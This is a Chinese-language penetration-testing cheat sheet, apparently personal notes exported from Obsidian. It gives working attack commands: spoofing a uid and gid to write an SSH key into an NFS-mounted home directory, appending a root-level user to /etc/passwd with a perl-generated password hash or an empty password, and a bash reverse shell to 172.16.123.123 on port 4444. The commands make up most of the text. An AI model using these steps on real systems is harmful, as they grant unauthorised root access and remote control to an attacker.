 ls -l /mnt/，发现 uid 为 1001，gid 为 1005

![ebee339385e0c422978583de33f9087f.jpg](D:\tools\Tools\Obsidian\sjqyyds\sjqyyds17\附件\渗透/media/image63.jpeg){width="5.694444444444445in"
height="1.4288254593175853in"}

groupadd -g 1055 boogle，创建 gid 为 1055 的组 boogle

adduser boogle -uid 1001 -gid 1005

![e1e97276a2cf03727eb628ef1307eaf4.jpg](D:\tools\Tools\Obsidian\sjqyyds\sjqyyds17\附件\渗透/media/image64.jpeg){width="5.760416666666667in"
height="4.288616579177603in"}

此时可以写入文件，则生成 boogle 的 ssh 公私钥，

![5c5b28b63cf75e1c478e2943dbd4b877.jpg](D:\tools\Tools\Obsidian\sjqyyds\sjqyyds17\附件\渗透/media/image65.jpeg){width="5.760416666666667in"
height="3.155845363079615in"}

先在 /mnt/peter/ 目录创建 /.ssh/ 目录

本地生成的 id_rsa.pub 是在 /root/.ssh/ 目录下，复制到
/mnt/peter/.ssh/authorized_keys，如下图：

![fc07fec7fc0a6e49e651b4c71480fe4c.jpg](D:\tools\Tools\Obsidian\sjqyyds\sjqyyds17\附件\渗透/media/image66.jpeg){width="5.760416666666667in"
height="1.8697298775153106in"}

**suid :**

获取root帐户

SUID ＂s＂使文件属主（这里是root）有rws权限。你要寻找的就是这个＂s＂

/etc/passw提权

**真正的root**

**密码要和用户用同样字**

perl -le \'print crypt(\"test\",\"addedsalt\")\'

输出：adMpHktIn0tR2

使用perl语言生成带有盐值的密码：test

  ---------- ------------ ---------- ---------- -------------- ------------ ------------
  root       :x           :0         :0         :root          :/root       :/bin/bash

  用户名     密码占位符   用户ID     主组ID     附加描述信息   用户家目录   默认shell
  ---------- ------------ ---------- ---------- -------------- ------------ ------------

echo \"test:adMpHktIn0tR2:0:0:User_like_root:/root:/bin/bash\"
\>\>/etc/passwd

然后登录test就是直接是root

或者是（echo \"test:x:0:0::/:/bin/bash\" \>\> /etc/passwd 空密码登录）

**bash进行反弹**

bash -i \>& /dev/tcp/172.16.123.123/4444 0\>&1
